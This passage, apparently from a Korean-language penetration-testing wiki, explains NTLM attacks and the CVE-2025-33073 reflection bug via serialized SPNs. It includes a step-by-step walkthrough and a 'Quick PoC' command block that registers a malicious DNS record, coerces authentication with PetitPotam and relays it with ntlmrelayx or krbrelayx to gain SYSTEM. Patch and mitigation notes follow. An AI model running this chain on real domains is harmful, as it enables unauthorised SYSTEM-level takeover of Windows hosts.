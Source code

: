 PoC는 **[https://github.com/eladshamir/Internal-Monologue](https://github.com/eladshamir/Internal-Monologue)**에서 찾을 수 있습니다.

## NTLM Relay and Responder

**이 공격을 수행하는 방법에 대한 자세한 가이드는 여기에서 읽어보세요:**

{{#ref}}
../../generic-methodologies-and-resources/pentesting-network/`spoofing-llmnr-nbt-ns-mdns-dns-and-wpad-and-relay-attacks.md`
{{#endref}}

## Parse NTLM challenges from a network capture

**다음 링크를 사용할 수 있습니다** [**https://github.com/mlgualtieri/NTLMRawUnHide**](https://github.com/mlgualtieri/NTLMRawUnHide)

## NTLM & Kerberos *Reflection* via Serialized SPNs (CVE-2025-33073)

Windows는 NTLM(또는 Kerberos) 인증이 호스트에서 시작되어 **동일한** 호스트로 다시 전달되어 SYSTEM 권한을 얻는 *reflection* 공격을 방지하기 위해 여러 완화 조치를 포함하고 있습니다.

Microsoft는 MS08-068 (SMB→SMB), MS09-013 (HTTP→SMB), MS15-076 (DCOM→DCOM) 및 이후 패치를 통해 대부분의 공개 체인을 차단했지만, **CVE-2025-33073**는 **SMB 클라이언트가 *marshalled* (직렬화된) 대상 정보를 포함하는 서비스 주체 이름(SPN)을 잘라내는 방식을 악용하여 보호를 우회할 수 있음을 보여줍니다.**

### TL;DR of the bug
1. 공격자는 **DNS A-record**를 등록하여 레이블이 marshalled SPN을 인코딩합니다 – 예:
`srv11UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA → 10.10.10.50`
2. 피해자는 해당 호스트 이름에 인증하도록 강요받습니다 (PetitPotam, DFSCoerce 등).
3. SMB 클라이언트가 대상 문자열 `cifs/srv11UWhRCAAAAA…`를 `lsasrv!LsapCheckMarshalledTargetInfo`에 전달할 때, `CredUnmarshalTargetInfo`에 대한 호출이 **직렬화된 블롭을 제거**하여 **`cifs/srv1`**을 남깁니다.
4. `msv1_0!SspIsTargetLocalhost` (또는 Kerberos에 해당하는 것)는 이제 짧은 호스트 부분이 컴퓨터 이름(`SRV1`)과 일치하기 때문에 대상을 *localhost*로 간주합니다.
5. 결과적으로 서버는 `NTLMSSP_NEGOTIATE_LOCAL_CALL`을 설정하고 **LSASS의 SYSTEM 액세스 토큰**을 컨텍스트에 주입합니다 (Kerberos의 경우 SYSTEM으로 표시된 서브세션 키가 생성됩니다).
6. `ntlmrelayx.py` **또는** `krbrelayx.py`를 사용하여 해당 인증을 릴레이하면 동일한 호스트에서 전체 SYSTEM 권한을 얻습니다.

### Quick PoC
```bash
# Add malicious DNS record
dnstool.py -u 'DOMAIN\\user' -p 'pass' 10.10.10.1 \
-a add -r srv11UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA \
-d 10.10.10.50

# Trigger authentication
PetitPotam.py -u user -p pass -d DOMAIN \
srv11UWhRCAAAAAAAAAAAAAAAAA… TARGET.DOMAIN.LOCAL

# Relay listener (NTLM)
ntlmrelayx.py -t TARGET.DOMAIN.LOCAL -smb2support

# Relay listener (Kerberos) – remove NTLM mechType first
krbrelayx.py -t TARGET.DOMAIN.LOCAL -smb2support
```
### 패치 및 완화
* **CVE-2025-33073**에 대한 KB 패치는 `mrxsmb.sys::SmbCeCreateSrvCall`에서 체크를 추가하여 대상에 마샬된 정보가 포함된 SMB 연결을 차단합니다 (`CredUnmarshalTargetInfo` ≠ `STATUS_INVALID_PARAMETER`).
* 패치되지 않은 호스트에서도 반사를 방지하기 위해 **SMB 서명**을 강제합니다.
* `*<base64>...*`와 유사한 DNS 레코드를 모니터링하고 강제 벡터(PetitPotam, DFSCoerce, AuthIP...)를 차단합니다.
